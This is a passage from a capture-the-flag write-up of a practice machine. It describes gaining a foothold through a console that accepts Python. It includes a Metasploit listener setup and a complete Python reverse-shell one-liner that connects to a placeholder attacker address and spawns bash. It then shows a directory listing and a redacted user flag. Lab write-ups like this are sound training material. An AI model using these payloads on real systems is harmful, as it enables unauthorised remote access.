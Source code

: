 The output indicated that my inputs were expected to by python commands so I started to see if I could start trying to gain a foothold into the machine by setting up a reverse shell through the console's python.

#### Weaponization 
As I was going in not knowing what to expect I decided to use metaspoit for it's versatility. For the sake of learning I should try to avoid using it in future when possible. 

Once booter I set up a standard listener.
```bash
sudo msfdb init && msfconsole
use exploit/multi/handler
set lhost <AttackerIP>
set lport <AttackerListeningPort>
run
```

#### Delivery
N/A

#### Exploitation
As the console's input was feeding into python I found a reverse shell command that is interpretable by the language and fed that in to the input.
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<AttackerIPAddress>",<ListeningPort>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```
After a moment my listener lit up and gave me an input. I had made it onto the host.
```bash
whoami
  sid
```

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
As I had established a connection into user `sid`'s home directory I immediately found the first flag `user.txt`.
```bash
sid@bookstore:~$ ls -l
ls -l
total 44
-r--r--r-- 1 sid  sid  4635 Oct 20  2020 api.py
-r-xr-xr-x 1 sid  sid   160 Oct 14  2020 api-up.sh
-rw-rw-r-- 1 sid  sid 16384 Oct 19  2020 books.db
-rwsrwsr-x 1 root sid  8488 Oct 20  2020 try-harder
-r--r----- 1 sid  sid    33 Oct 15  2020 user.txt
```
```
cat user.txt
  {FLAG}
```
